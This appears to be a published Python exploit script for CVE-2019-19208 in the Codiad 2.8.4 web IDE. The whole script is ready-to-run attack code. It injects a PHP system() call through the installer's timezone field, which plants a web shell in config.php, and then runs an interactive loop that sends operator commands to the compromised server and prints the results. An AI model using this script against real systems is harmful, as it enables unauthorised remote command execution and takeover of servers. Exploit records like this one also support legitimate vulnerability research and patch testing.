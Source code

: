 EXP
---

    # Exploit Title: Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)
    # Date: 21.05.2021
    # Exploit Author: Ron Jost (Hacker5preme)
    # Credits to: https://herolab.usd.de/security-advisories/usd-2019-0049/ (Tobias Neitzel)
    # Vendor Homepage: http://codiad.com/
    # Software Link: https://github.com/Codiad/Codiad/releases/tag/v.2.8.4
    # Version: 2.8.4
    # Tested on: Xubuntu 20.04 and Cent OS 8.3
    # CVE: CVE-2019-19208

    '''
    Description:
    An unauthenticated attacker can inject PHP code before the initial configuration
    that gets executed and therefore he can run arbitrary system commands on the server.
    '''


    '''
    Import required modules:
    '''
    import requests
    import json
    import sys
    import time


    '''
    User-Input:
    '''
    target_ip = sys.argv[1]
    target_port = sys.argv[2]


    '''
    Determining target:
    --> The installationpaths to select from are derived from the installation instructions from:
            https://github.com/Codiad/Codiad/wiki/Installation
    '''
    print('Enter one of the following numbers to proceed')
    print('[1]: OS of the target: Higher than Ubuntu 13.04; path: /var/www/html/')
    print('[2]: OS of the target: Ubuntu 13.04 or below; path: /var/www/')
    print('[3]: OS of the target: CENT OS; path: /var/www/html/')
    selection = int(input('Your Choice: '))
    if selection == 3 or selection == 1:
        path = "/var/www/html"
        content_len = "191"
    if selection == 2:
        path = '/var/www'
        content_len = '185'


    '''
    Get cookie
    '''
    session = requests.Session()
    link = 'http://' + target_ip + ':' + target_port + '/'
    response = session.get(link)
    cookies_session = session.cookies.get_dict()
    cookie = json.dumps(cookies_session)
    cookie = cookie.replace('"}','')
    cookie = cookie.replace('{"', '')
    cookie = cookie.replace('"', '')
    cookie = cookie.replace(" ", '')
    cookie = cookie.replace(":", '=')


    '''
    Construct header:
    '''
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.',
        'Accept': '*/*',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Content-Length': content_len,
        'Origin': 'htttp://' + target_ip,
        'Connection': 'close',
        'Referer': 'http://' + target_ip + '/',
        'Cookie': cookie,
    }


    '''
    Construct body:
    '''
    string = """'"); system($_GET["cmd"]); print("'"""
    body = {
        'path': path,
        'username': 'test',
        'password': 'exploit',
        'password_confirm': 'exploit',
        'project_name': 'hello',
        'project_path': path + '/data',
        'timezone': str(string)
    }


    '''
    Post the request with the malaicious payload
    '''
    print('Posting request with malicious payload')
    link = link + '/components/install/process.php'
    x = requests.post(link, headers=header, data=body)
    print('Waiting 10 seconds')
    time.sleep(10)


    '''
    Create payload / persistend command execution:
    '''
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Cookie': cookie,
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'mag-age=0'
    }
    payload = input('Input the command, which should be executed on the targeted machine. To abort enter EXIT: ')
    while payload != 'EXIT':
        link_payload = 'http://' + target_ip + ':' + target_port + '/config.php?cmd=' + payload
        x = requests.get(link_payload, headers=header)
        print(x.text)
        payload = input('Input the command, which should be executed on the targeted machine. To abort enter EXIT: ')
